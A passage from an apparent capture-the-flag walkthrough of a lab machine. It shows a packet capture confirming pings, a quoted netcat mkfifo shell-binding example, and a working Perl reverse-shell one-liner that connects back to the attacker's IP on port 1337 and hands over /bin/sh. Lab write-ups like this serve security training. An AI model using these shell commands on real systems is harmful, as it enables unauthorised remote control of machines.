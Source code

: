 ```console
```

Let's check if we received the ping:
```console
$ tshark -i utun2 -Y icmp
Capturing on 'utun2'
    6  17:46:43,417023 10.10.10.168 → 10.10.14.81  ICMP 88
    7  17:46:43,417057  10.10.14.81 → 10.10.10.168 ICMP 88
    8  17:46:44,448178 10.10.10.168 → 10.10.14.81  ICMP 88
    9  17:46:44,448202  10.10.14.81 → 10.10.10.168 ICMP 88
   12  17:46:45,472229 10.10.10.168 → 10.10.14.81  ICMP 88
   13  17:46:45,472278  10.10.14.81 → 10.10.10.168 ICMP 88
   16  17:46:46,422246 10.10.10.168 → 10.10.14.81  ICMP 88
   17  17:46:46,422274  10.10.14.81 → 10.10.10.168 ICMP 88
```

And we did!

## Getting a reverse shell
Let's try to get a reverse shell now, but we can't use netcat on the machine
because it's compiled without `-c` and `-e` options, as we can see by piping the
result of `man` in out listener:
```console
 There is no -c or -e option in this netcat, but you still can execute a command after con‐
     nection being established by redirecting file descriptors. Be cautious here because opening
     a port and let anyone connected execute arbitrary command on your site is DANGEROUS. If you
     really need to do this, here is an example:

     On ‘server’ side:

           $ rm -f /tmp/f; mkfifo /tmp/f
           $ cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 1234 > /tmp/f

     On ‘client’ side:

           $ nc host.example.com 1234
           $ (shell prompt from host.example.com)
```

In order to avoid getting crazy with url encoding, we can start an HTTP server,
let's say on port 8080, and use it to remotely download a script and execute it
to get a reverse shell.

In this case, I am going to use `perl` to get a reverse shell, so let's start an
HTTP server with `python -m http.server 8080` and let's write our reverse shell
payload in a file:
```bash
#!/usr/bin/env bash
perl -e 'use Socket;$i="10.10.14.81";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
